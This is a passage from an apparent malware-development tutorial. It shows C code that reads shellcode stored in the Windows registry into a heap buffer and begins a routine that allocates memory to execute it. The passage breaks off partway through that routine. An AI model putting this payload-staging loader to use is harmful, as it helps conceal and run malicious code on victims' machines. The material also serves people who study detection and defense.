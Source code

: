 The fourth parameter can be used to restrict the data type, however, this implementation uses `RRF_RT_ANY`, signifying any data type. Alternatively, `RRF_RT_REG_BINARY` could have been used since the payload is of binary data type. Lastly, the payload is read to `pBytes` which was previously allocated using `HeapAlloc`.

```c
STATUS = RegGetValueA(HKEY_CURRENT_USER, REGISTRY, REGSTRING, RRF_RT_ANY, NULL, pBytes, &dwBytesRead);
```

#### Reading Registry - Code Snippet

```c
BOOL ReadShellcodeFromRegistry(IN DWORD sPayloadSize, OUT PBYTE* ppPayload) {

    LSTATUS     STATUS            = NULL;
    DWORD       dwBytesRead       = sPayloadSize;
    PVOID       pBytes            = NULL;


    pBytes = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sPayloadSize);
    if (pBytes == NULL){
        printf("[!] HeapAlloc Failed With Error : %d\n", GetLastError());
        return FALSE;
    }

    STATUS = RegGetValueA(HKEY_CURRENT_USER, REGISTRY, REGSTRING, RRF_RT_ANY, NULL, pBytes, &dwBytesRead);
    if (ERROR_SUCCESS != STATUS) {
        printf("[!] RegGetValueA Failed With Error : %d\n", STATUS);
        return FALSE;
    }

    if (sPayloadSize != dwBytesRead) {
        printf("[!] Total Bytes Read : %d ; Instead Of Reading : %d\n", dwBytesRead, sPayloadSize);
        return FALSE;
    }

    *ppPayload = pBytes;

    return TRUE;
}

```

#### Executing Payload

Once the payload is read from the registry and stored inside the allocated buffer, the `RunShellcode` function is used to execute the payload. Note that this function was explained in earlier modules.

```c

BOOL RunShellcode(IN PVOID pDecryptedShellcode, IN SIZE_T sDecryptedShellcodeSize) {

    PVOID pShellcodeAddress = NULL;
    DWORD dwOldProtection   = NULL;

    pShellcodeAddress = VirtualAlloc(NULL, sDecryptedShellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (pShellcodeAddress == NULL) {
        printf("[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
        return FALSE;
    }

    printf("[i] Allocated Memory At : 0x%p \n", pShellcodeAddress);
```